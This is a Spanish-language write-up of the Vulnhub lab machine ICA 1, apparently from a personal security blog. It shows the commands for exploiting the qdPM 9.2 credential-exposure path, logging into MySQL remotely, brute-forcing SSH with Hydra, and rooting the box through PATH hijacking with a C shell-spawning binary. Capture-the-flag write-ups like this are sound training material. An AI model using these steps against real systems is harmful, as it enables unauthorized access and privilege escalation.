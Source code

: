 ```yaml
---
layout: single
title: ICA 1 - Vulnhub
excerpt: "Para vulnerar esta máquina a la hora de ver el sitio web del :80, vemos qué tiene un qdPM con una versión vulnerable qué suele exponer las credenciales de la base de datos en una ruta específica, obteniendo así las credenciales para la DB MySQL, pudiendo conectarnos a ésta de forma remota, para posterior ver el contenido de sus base de datos internas, logrando así ver usuarios & contraseñas válidas del sistema, una vez conetado a la máquina con SSH escalamos privilegios mediante un Path Hijacking a un ejecutable qué llama a cat con su ruta relativa."
date: 10/11/2023
classes: wide
header:
  teaser_home_page: true
  icon: /assets/images/vulnhub.webp

tags:
  - Abusing qdPM 9.2 - Password Exposure (Unauthenticated)
  - Remote connection to the MYSQL
  - SSH brute force
  - Abusing SUID privilege
  - PATH Hijacking
---
```


Para vulnerar esta máquina a la hora de ver el sitio web del :80, vemos qué tiene un qdPM con una versión vulnerable qué suele exponer las credenciales de la base de datos en una ruta específica, obteniendo así las credenciales para la DB MySQL, pudiendo conectarnos a ésta de forma remota, para posterior ver el contenido de sus base de datos internas, logrando así ver usuarios & contraseñas válidas del sistema, una vez conetado a la máquina con SSH escalamos privilegios mediante un Path Hijacking a un ejecutable qué llama a cat con su ruta relativa.


# PortScan
______
```
# Nmap 7.93 scan initiated Fri Nov 10 16:42:38 2023 as: nmap -sCV -p22,80,3306,33060 -oN targeted 192.168.204.159
Nmap scan report for 192.168.204.159
Host is up (0.00074s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 0e77d9cbf80541b9e44571c101acda93 (RSA)
|   256 4051934bf83785fda5f4d727416ca0a5 (ECDSA)
|_  256 098560c535c14d837693fbc7f0cd7b8e (ED25519)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: qdPM | Login
|_http-server-header: Apache/2.4.48 (Debian)
3306/tcp  open  mysql   MySQL 8.0.26
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-09-25T10:47:29
|_Not valid after:  2031-09-23T10:47:29
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26
|   Thread ID: 41
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolOld, LongColumnFlag, SupportsCompression, Support41Auth, Speaks41ProtocolNew, FoundRows, SupportsTransactions, IgnoreSi
gpipes, IgnoreSpaceBeforeParenthesis, InteractiveClient, LongPassword, SwitchToSSLAfterHandshake, ODBCClient, SupportsLoadDataLocal, ConnectWithDatabase, Dont
AllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 3bnP)\x17D3\x01\x03X6S<+blTX[
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi
```


# Web Site
___
![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110174213.png)

Tendríamos un **qdPM** con versión **9.2**, sí buscamos en **exploit-db,** encontraríamos este ["exploit"](https://www.exploit-db.com/exploits/50176) que nos indica qué en esta versión sé suele exponer la contraseña de la **DB** en esta dirección:
```
http://<website>/core/config/databases.yml
```

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110174747.png)

Definitivamente, el recurso existe, nos lo descargamos en local para posterior ver el contenido qué está dentro.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110174853.png)

# Conexión a la DB MySQL

Dentro tiene lo qué parece ser el nombre de usuario para acceder a la DB **MySQL** y la **contraseña**, comprobamos esto.
```bash
mysql -u qdpmadmin -h 192.168.204.159 -p
```

Una vez pongamos la contraseña, veremos qué definitivamente hemos logrado entrar a la **DB MySQL.**

Ahora nos interesaría ver las bases de datos existentes, las tablas & el contenido dentro de las columnas qué nos interesa, llegando así a encontrar posibles credenciales del sistema.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180000.png)

Encontramos lo qué parecen ser claves en **base64** de los mismos usuarios que logramos ver en la DB.

Por lo qué se me ocurre desconvertir las claves en **base64** & intentar conectarme a todos los usuarios con esas claves, pero podríamos automatizarlo mediante un ataque de fuerza bruta con Hydra, metiendo las credenciales en archivos de texto, es decir, meter los usuarios en un archivo y las contraseñas desconvertidas en otras, tal que así:

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180302.png)

Para ahora con **hydra** usando estos dos diccionario intentar conectarnos mediante fuerza bruta.

```bash
hydra -L users.txt -P passwords.txt ssh://192.168.204.159
```

Reportándonos así la clave válida para uno de los usuarios.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180404.png)

Así qué ahora podríamos conectarnos a través de **SSH** a éste usuario.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180443.png)


# Escalada de Privilegios
_____


Buscando en la máquina archivos con permisos **SUID**.
```bash
find / -perm -4000 2>/dev/null
```

Encontraríamos un ejecutable con permisos **SUID** Root.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180654.png)

qué indagando sobre este ejecutable con strings.
```bash
strings /opt/get_access
```

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180921.png)

Vemos qué hace un **cat** a la ruta "**/root/system.info**", el problema es qué está usando la ruta relativa del **cat** y no la absoluta, por lo qué podríamos llevar a cabo un **Path Hijacking**.

Para ello debemos ir a un directorio donde tengamos permisos de escritura, por ejemplo a "**/tmp/**", montarnos el siguiente script en C.

Creamos el .C.
```python
nano cat.c
```

Que dentro tendrá el siguiente código
```python
#include <unistd.h>

int main(void) {
    setuid(0);
    setgid(0);
    char *binaryPath = "/bin/bash";
    char *args[] = {binaryPath, "-p", NULL};
    
    execv(binaryPath, args);
    return 0;
}
```

y lo compilamos
```bash
gcc cat.c -o cat
```

Ahora tocaría modificar la variable de entorno del sistema para qué que el ejecutable no llegue a la ruta real del **cat**, y llegue a la ruta donde lo tengamos nosotros, es decir "**/tmp/**".
```bash
export PATH=/tmp/:$PATH
```

De forma que cuando volvamos a ejecutar el "**get_access**" leerá nuestro **cat**, otorgándonos así una bash con privilegios como **Root**.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110182015.png)
